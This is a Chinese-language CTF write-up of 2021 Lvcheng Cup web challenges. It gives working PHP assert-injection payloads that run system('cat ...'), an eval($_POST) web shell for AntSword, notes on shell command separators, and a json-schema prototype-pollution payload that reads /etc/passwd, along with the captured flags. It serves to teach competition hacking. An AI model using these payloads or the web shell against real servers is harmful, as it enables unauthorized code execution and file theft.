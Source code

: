 ```yaml
---
title: 绿城杯Web部分WP
date: 2021-09-29 19:14:13
tags:  CTF,比赛
category: CTF
---
```


## ezphp

- 收获：rce，代码执行

  - ⭕通过代码执行或命令执行写Shell：https://www.bilibili.com/read/cv11569998

  - https://blog.csdn.net/qq_46150940/article/details/110044575

- 差不多原题：https://blog.csdn.net/About23/article/details/95075416 、https://www.jianshu.com/p/47bbfaf3f2d9

### 知识点

- php运算符及优先级：https://www.php.net/manual/zh/language.operators.logical.php

-  bool or bool这样的语句中，如果前一个值为真后一个值就不会再判断了

- assert assert ( mixed $assertion [, Throwable $exception ] ) : bool——— assert — 检查一个断言是否为 FALSE，如果是false，返回1，否则返回0 
  - 如果参数是字符串，它将会被 assert() 当做 PHP 代码来执行

- strpos 如果没找到 needle，将返回 false。

### 解题

- assert($safe_check1) or die("no no no!");
  - 只有assert为真才不会die，assert参数为false才返回1。符合假定则就不会die

- 所以只要闭合assert右括号，并注释掉die即可
  - assert(" strpos('pages/flag','..')||phpinfo();//.php  ', '..') === false   ")

- 输入')||phpinfo();//，代码执行，显示phpinfo=》命令执行

#### 解法1：在源码里！！php会被执行！

- index.php跟pages文件夹在同一目录下，注意加上./!，下面的都可以！

  - ')||system('cat ./pages/flag.php');//

  - 1','1')||system('cat ./pages/flag.php');//

  - flag','.')||system('cat pages/flag.php');//

  - ')||eval("system('cat ./pages/flag.php');");//

  - ')||print_r(file_get_contents('./pages/flag.php'));//

- url：view-source:http://e6e8c804-8ce5-4caa-9940-411be14f96fb.zzctf.dasctf.com/?link_page=1%27,%271%27)||system(%27cat%20./pages/flag.php%27);//![](https://api2.mubu.com/v3/document_image/756e8572-0051-4ab5-86f6-a50f4ad45031-11812322.jpg)![](https://api2.mubu.com/v3/document_image/47729fa1-eb75-44e3-a60b-788116c9f2b4-11812322.jpg)

- flag找到//DASCTF{c804c562fffd14c6ae757e07b30126ee}

#### 解法2

也可用蚁剑?link_page=flag.php', '..') === true|eval($_POST['yy']);//，post传参yy=system('ls /');，密码yy

- 在Linux上， ; 可以用 |、|| 代替

  - ;前面的执行完执行后面的 

  - |是管道符，显示后面的执行结果 

  - ||当前面的执行出错时执行后面的 

- 在Windows上，不能用 ; 可以用&、&&、|、||代替

  - &前面的语句为假则直接执行后面的

  - &&前面的语句为假则直接出错，后面的也不执行 

  - |直接执行后面的语句

  - ||前面出错执行后面的

## easyjava

- wp：https://ha1c9on.top/2021/09/29/2021-lvcvheng-ezjava/

- wp2：https://www.wolai.com/atao/i6PwXQdpbcwBeXvJVLrjMr

## easycms 

- http://240ecfdd-1600-46bb-99cc-c5c21cc46f55.zzctf.dasctf.com/

- wp
  - https://guokeya.github.io/post/8ZEuy4BXz/

## Looking for treasure

- 考点：源码审计、json-schema原型链污染

- wp：https://blog.csdn.net/weixin_52091458/article/details/120560406

- js知识点

  - let命令，用来声明局部变量，类似于var，但var是全局变量，let是花括号内局部变量

  - console.log()，输出括号里的东西

  - req.body是用在post请求当中得到请求体

  - lodash是java的原生库，里面有很多方法（函数）可以用

  - object.toString()，以字符串的形式返回对象内容

  - JSON.parse() 方法将数据转换为 JavaScript 对象。

  - [Express中 res.json及res.send()](https://juejin.cn/post/6844903920976789511)，都是发送内容到http响应body里，但可能因类型不同导致Content-Type 不同

  - 获取url参数：/path/:id,参数在req.params.id中，/path?id=xx,参数在req.query.id中，：表示后面的是参数

  - 逻辑非运算符! >逻辑或运算符||，先非后或，或只要前面是true则不会执行后面

  - JSON Schema本身是是JSON数据的规范/模板，是一种数据结构

  - ⭕原型链污染

    - https://www.cnblogs.com/l0nmar/p/13951739.html

    - Defcon CTF Final Web wp（部分原题）：[https://0day.design/2020/08/11/defcon%20CTF%20Final%20Web%20WriteUp/](https://0day.design/2020/08/11/defcon CTF Final Web WriteUp/)

    - 知识库，少：https://wiki.wgpsec.org/knowledge/ctf/js-prototype-chain-pollution.html

    - freebuf https://www.freebuf.com/articles/web/264966.html

### 解题

- fs.readFileSync()方法是fs模块的内置应用程序编程接口，用于读取文件并返回其内容。

  - 这里读取了p文件，如果能控制p的值就能实现文件读取。

    

    - lodash.isEqual(req.body, content)，检查post的body是否与读取的文件内容相同，这个肯定是不相同的不用管它 ，所以p的内容最后会在报错信息的content里发出，以这种形式res.send({ "validator": valid, "content" : content, "log": "wrong content"})

  - p怎么来的，config.path给p赋值。所以得想办法控制path的值。![](https://api2.mubu.com/v3/document_image/c13adcb2-dab3-4d12-8452-fb2f1c7025e5-11812322.jpg)

  - 一开始url无参数，!req.params.library为true，直接req.params.library = "json-schema";

  - 看到这个想到json-schema原型链污染

- payload

  - {"$schema":{"type":"object","properties":{"__proto__":{"type":"object","properties":{"path":{"type":"string","default":"/etc/passwd"}}}}}}
    - default后面的字符串可控![](https://api2.mubu.com/v3/document_image/5c821c1d-dd7e-470f-b7d3-514c870dea79-11812322.jpg)

  - DASCTF{5117143e660f592adc982dd96d2c3f17}